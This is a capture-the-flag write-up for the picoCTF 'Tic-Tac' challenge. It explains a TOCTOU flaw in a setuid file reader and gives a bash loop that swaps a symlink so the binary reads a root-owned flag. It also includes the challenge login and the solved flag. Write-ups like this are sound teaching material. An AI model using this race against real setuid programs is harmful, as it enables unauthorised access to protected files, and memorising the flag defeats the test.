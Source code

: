 
# Tic-Tac

*Hard*

>### Description
>Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.
ssh to saturn.picoctf.net:64035, and run the binary named "txtreader" once connected. Login as ctf-player with the password, d8819d45

### Solution

In the home directory of ctf-player I find three files: 
```
-rw------- 1 root       root          32 Aug  4  2023 flag.txt
-rw-r--r-- 1 ctf-player ctf-player   912 Mar 16  2023 src.cpp
-rwsr-xr-x 1 root       root       19016 Aug  4  2023 txtreader
```

- Notice that the executable has the "setuid" bit set.

Lets look at the `src.cpp` file:

```c
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```

- But the code uses `getuid()` instead of `geteuid()`, so the setuid bit does not make it work for root files.

>I did not really know how to exploit this... So I asked ChatGPT, it came up with a symlink attack using race conditions. A TOCTOU (Time-of-check Time-of-use) Attack, then I read the tag of the challenge that also said TOCTOU, and yeah, I should have seen that earlier...

The idea is that there is a time between the permissions check and the file reader. So we can create a symlink that is constantly switched between the `flag.txt` and some file I own. So create such a file with `echo "hi" > my.txt`, and then create a script.sh file that continuously switches the link:

```bash
#!/bin/bash
while true; do
    ln -sf my.txt symlink
    ln -sf /home/ctf-player/flag.txt symlink
done
```

Run this script in the background with `./script.sh &`. Now that the "symlink" is continuously switched between the flag and our owned file. Just spam `./txtreader symlink` until it prints the flag, it takes some ~~timing~~ luck to get it right.

<details>
<summary>Yes! We got the flag:</summary> 
picoCTF{ToctoU_!s_3a5y_5748402c}
</details>